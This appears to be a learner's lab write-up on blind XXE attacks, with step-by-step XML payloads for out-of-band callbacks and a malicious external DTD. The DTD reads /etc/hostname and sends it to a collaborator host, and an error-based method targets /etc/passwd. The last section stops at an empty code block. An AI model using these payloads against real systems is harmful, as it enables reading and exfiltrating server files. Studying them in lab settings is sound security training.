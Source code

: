 # Blind XXE with out-of-band interaction via XML parameter entities
- Trigger out-of-band interactions with external domain
1. View product and check the stock
2. POST `/product/stock` sends an XML request specifying product and store ID
3. Create XML entity and make a OOB request to the collaborator using `xml parameter entities`
	- **Note:** Do not reference the entity within the XML tags, just make the parameter entity
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://uyw04yolexbka8gqje7as5t950brzkn9.oastify.com/x"> %ext;
]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
- See that I have not referenced the entity in the POST body (i.e. `&ext;`)
# Exploiting blind XXE to exfiltrate data using a malicious external DTD
- Exfiltrate contents of `/etc/hostname`
1. View product and check the stock
2. POST `/product/stock` sends an XML request specifying product and store ID
3. Create XML entity and make a OOB request to the collaborator using `xml parameter entities`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://zil5o38qy2vpud0v3jrfcadep5vwj17q.oastify.com/x"> %ext;
]><stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```
4. Confirm call back by checking collaborator and seeing interactions
5. Host malicious DTD file on exploit server
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://3ko9q7au06xtwh2z5ntjeefir9x0l49t.oastify.com/?x=%file;'>">
%eval;
%exfiltrate;
```
6. Send request to target making it call exploit server hosting malicious DTD file
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0a46003f03626dae80071b5b01a60033.exploit-server.net/exploit"> %xxe;]><stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```
7. Check collaborator and you will see a HTTP request for `/x?=<contents_of_/etc/hostname>`
# Exploiting blind XXE to retrieve data via error messages
- Read `/etc/passwd` file
1. View product and check the stock
2. POST `/product/stock` sends an XML request specifying product and store ID
3. Test verbose XML errors by removing a closing tag in the xml request
```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId><storeId>1</storeId></stockCheck>
```
- I got rid of `</productId>`
4. Verbose error message in HTTP response
5. Test remote call to attack server to confirm if we can host a malicious DTD file
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://rfadgeqx5lkt4iun1s875nue55bwzmnb.oastify.com.oastify.com/x"> %ext;
]><productId>3</productId><storeId>1</storeId></stockCheck>
```
- Callback to collaborator confirms we can make remote calls
6. Host malicious DTD which will cause error containing the contents of `/etc/passwd`
```xml
```
